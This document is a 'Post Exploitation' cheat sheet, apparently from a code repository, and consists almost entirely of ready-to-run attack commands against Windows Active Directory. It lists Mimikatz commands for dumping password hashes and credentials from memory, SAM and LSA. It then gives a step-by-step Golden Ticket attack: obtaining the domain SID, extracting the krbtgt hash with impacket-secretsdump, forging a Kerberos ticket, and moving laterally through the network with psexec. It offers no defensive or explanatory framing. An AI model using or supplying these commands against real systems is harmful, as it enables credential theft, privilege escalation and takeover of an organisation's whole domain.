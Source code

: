 # Post Exploitation 
## Mimikatz
```
mimikatz.exe
privilege::debug
token::elevate

# Common commands to run through and dump hashes/creds

sekurlsa::logonpasswords
lsadump::secrets
lsadump::sam
lsadump::sam /dump
lsadump::sam /patch
lsadump::cache
lsadump::lsa /patch
lsadump::lsa /inject
sekurlsa::pth
```

## Golden Ticket Attack w/ Mimikatz
First get the Domain SID - the IP is the IP of the DC server
```
impacket-lookupsid domain/some_user@10.10.20.10 | grep "Domain SID"

# Refer to alternate commands below.
```

Grab the krbtgt user ntlm hash:
```
impacket-secretsdump domain/some_user:some_password@10.10.20.10 -outputfile krbhash -user-status

# You can also just run mimikatz on the target machine you are on and get the SID and the krbtgt NTLM hash
mimikatz.exe
lsadump::lsa /inject /name:krbtgt
```

Now run mimikatz on the target machine that you have access to as some_user and that also has krbtgt user:
```
evil-winrm -i 10.10.20.9 -u some_user
Or you can just RDP...

mimikatz.exe

# Now run the kerberos golden ticket module as follows replacing the domain SID and the krbtgt ntlm hash
kerberos::golden /user:some_user /domain:my.target_domain.com /sid:domain_SID_here /krbtgt:NTLM_hash_here /id:500 /ptt

# Spawn an admin shell with the following command if you have RDP 
misc::cmd

# You can also just exit mimikatz, if you the user you created the golden ticket for is the current user you are logged in as - you should have forged privs to access other machines in the network now

# Run a check to see if you can access other machines in the network
dir \\IP_of_target_or_hostname\c$
Install psexec or upload the binary and then run this command to get a shell on the other machines.
psexec.exe \\IP_of_target_or_hostname cmd.exe
```